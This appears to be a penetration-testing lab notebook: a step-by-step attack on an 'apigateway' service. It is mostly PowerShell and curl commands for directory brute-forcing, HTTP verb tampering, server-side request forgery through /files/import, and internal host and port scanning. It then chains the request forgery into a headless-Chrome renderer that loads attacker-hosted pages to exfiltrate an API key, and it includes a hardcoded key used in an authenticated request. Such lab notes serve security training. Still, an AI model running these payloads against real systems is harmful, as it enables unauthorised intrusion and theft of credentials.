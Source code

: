 directory scan:
```powershell
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u http://apigateway:8000/FUZZ -t 200 -o endpoints.json
```
We could convert the json into a hashmap and work with the object:
```powershell
$hashtable = gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable 
$hashtable.results
```
but here is a more effective one liner:
```powershell
gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable | % -process { $_.results.GetEnumerator()} | % -process {Add-Content -Path parsed-urls.txt -Value $_.url}
```
Stripped Files
```powershell
foreach ($i in gc ./parsed-urls.txt) {Add-Content -Path endpoints-stripped.txt -value $i.split('/')[3]}
```
Http verb tampering
```powershell
Invoke-RouteBuster -ActionList ./actions-only-valid.txt -Wordlist ./wordlist-only-valid.txt -Target http://apigateway:8000 -Methods get,post
```

ssrf poc:
In particular this is a good example of how to send a json payload
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://192.168.119.144/"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.118.3/ssrftest"}' http://apigateway:8000/files/import
```

One interesting observeration is that python3 webserver provides less information than apache. To be specific when reading the apache servers logs we are able to see the user agent of the file import microservice: axios/0.21.1
```bash
sudo systemctl start apache2
sudo systemctl status apache
sudo tail /var/log/apache2/access.log -f
```

One thing also worth mentioning is that 'Access-Control-Allow-Credentials' is set on file/import and almost every other endpoing we bruteforced 
```bash
sudo tail /var/log/apache2/access.log -f
```

We can scan a list of gateways with:
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/22' -Ports 8000 -Gateway
```
We can detect all of the live hosts and scan ports within the '172.16.16.0/28' range (/28 gives us the first 15 ip addresses, /29 gives the first 6)
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/28' -Hosts -Open
```
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/29' -Ports 8000 -Hosts -Open
```


headless chrome test powershell:
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/test.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Exfiltration via Javascript. Note that the internal Javascript reaches out to 172.16.16.4:8001 so at this point there are two ssrf targets.
- 172.16.16.2:9000
- 172.16.16.4:8001
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/exfiltration.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Exfiltrate api key
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/api-key-extraction.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Authenticated request to /render service
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
